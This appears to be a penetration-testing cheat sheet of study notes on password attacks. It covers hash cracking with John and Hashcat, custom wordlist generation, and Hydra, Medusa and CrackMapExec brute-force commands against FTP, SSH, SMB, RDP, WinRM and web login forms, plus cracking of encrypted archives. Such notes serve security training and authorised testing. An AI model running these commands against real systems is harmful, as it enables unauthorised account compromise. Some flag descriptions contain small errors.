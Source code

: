 ## delete
# Passwords Attack
## Hash Identifier
```bash
$ hash-identifier
```

## Crack Password
### John The Ripper
```bash
$ john pass.txt --wordlist=/usr/share/wordlists/rockyou.txt`
```

### Hashcat
```bash
$ hashcat -m 3200 -a 0 -o found.txt passwd.txt /usr/share/wordlists/rockyou.txt

# 1000 NTLM hashes
# 5600 NTLMv2 hashes
# 13100 Kerberos TGS
```

## Password Mutations
`/usr/share/hashcat/rules/`
```bash
$ hashcat --force password.list -r custom.rule --stdout | sort -u > mut_password.list
```

* * *

# Custom Wordlists
## CeWL
We can now use another tool called CeWL to scan potential words from the company's website and save them in a separate list. We can then combine this list with the desired rules and create a customized password list that has a higher probability of guessing a correct password. We specify some parameters, like the depth to spider (-d), the minimum length of the word (-m), the storage of the found words in lowercase (--lowercase), as well as the file where we want to store the results (-w).


```bash
$ cewl https://www.inlanefreight.com -d 4 -m 6 --lowercase -w inlane.wordlist
```
   - `-d minimum word length`
   - `-m maximum word length`
   - `--lowercase all words are lowercase`
   - `-w output file`

## CUPP
```bash
$ cupp -i

sed -ri '/^.{,7}$/d' william.txt            # remove shorter than 8
sed -ri '/[!-/:-@\[-`\{-~]+/!d' william.txt # remove no special chars
sed -ri '/[0-9]+/!d' william.txt            # remove no numbers
```

## Custom list of Usernames
```bash
$ ./username-anarchy -i /home/ltnbob/names.txt 
$ ./username-anarchy Bill Gates > bill.txt
```

## Default Passwords
**Credential Stuffing - Hydra**
There are various databases that keep a running list of known default credentials. One of them is the (DefaultCreds-Cheat-Sheet)[https://github.com/ihebski/DefaultCreds-cheat-sheet]. Here is a small excerpt from the entire table of this cheat sheet:

This is a simplified variant of brute-forcing because only composite usernames and the associated passwords are used.
```bash
$ hydra -C <user_pass.list> <protocol>://<IP>
```

* * *

# Services
`Note: Although we may find services vulnerable to brute force, most applications today prevent these types of attacks. A more effective method is Password Spraying.`

## Hydra 
```bash
$ hydra -L user.list -P password.list <protocol>://<IP> -t 48 -p <port>

- L user list 
- l single username 
- P pass list
- p single password
- t <num> threads
- p <port>
```

## FTP
```bash
$ medusa -u fiona -P /usr/share/wordlists/rockyou.txt -h 10.129.203.7 -M ftp 

$ hydra -L user.list -P password.list ftp://<IP> -s 21
```

## SSH
```bash
$ hydra -L user.list -P password.list ssh://<IP>
```

## SMB
```bash
$ crackmapexec smb 10.10.110.17 -u /tmp/userlist.txt -p 'Company01!' --local-auth

$ hydra -L user.list -P password.list smb://10.129.42.197

$ msf6 > use auxiliary/scanner/smb/smb_login
```

## WinRM
```bash
$ crackmapexec winrm <IP> -u user.list -p password.list
```

## RDP
```bash
$ crowbar -b rdp -s 192.168.220.142/32 -U users.txt -c 'password123'
$ hydra -L usernames.txt -p 'password123' 192.168.2.143 rdp
$ hydra -L user.list -P password.list rdp://10.129.42.197`
```

* * *

# Login Attacks
## Default Passwords
`/usr/share/wordlists/seclists/Passwords/Default-Credentials`

```bash
$ hydra -C /usr/share/wordlists/seclists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt <IP> -s <PORT> http-get /
```

## Username/Password Attack
```bash
$ hydra -L /usr/share/wordlists/secLists/Usernames/Names/names.txt -P /usr/share/wordlists/rockyou.txt -u -f <IP> -s <PORT> http-get /
```

## Username Brute Force
```bash
$ hydra -L /usr/share/wordlists/secLists/Usernames/Names/names.txt -p <PASSWORD> -u -f <IP> -s <PORT> http-get /
```

## Brute Forcing Forms
two types of http modules interesting for us:

- http[s]-{head|get|post}
- http[s]-post-form
The 1st module serves for basic HTTP authentication, while the 2nd module is used for login forms, like .php or .aspx and others.

To decide which module we need, we have to determine whether the web application uses GET or a POST form. We can test it by trying to log in and pay attention to the URL. If we recognize that any of our input was pasted into the URL, the web application uses a GET form. Otherwise, it uses a POST form.


```bash
$ hydra -l <admin> -P /usr/share/wordlists/rockyou.txt -f <IP> -s <PORT> http-post-form "/login.php:username=^USER^&password=^PASS^:F=<form name='login'"
```

- login.php: url
- username=^USER^&password=^PASS^: parameters to POST (Capture on Burp Suite)
- Third: form name (Check source code)


# Protected Files
## Cracking with John
```bash
$ locate *2john*
```

```bash
$ ssh2john.py SSH.private > ssh.hash
```

## Cracking OpenSSL Encrypted Archives
```bash 
$ file GZIP.gzip 

GZIP.gzip: openssl enc'd data with salted password
```

### Using a for-loop to Display Extracted Contents
```bash
$ for i in $(cat rockyou.txt);do openssl enc -aes-256-cbc -d -in GZIP.gzip -k $i 2>/dev/null| tar xz;done
```
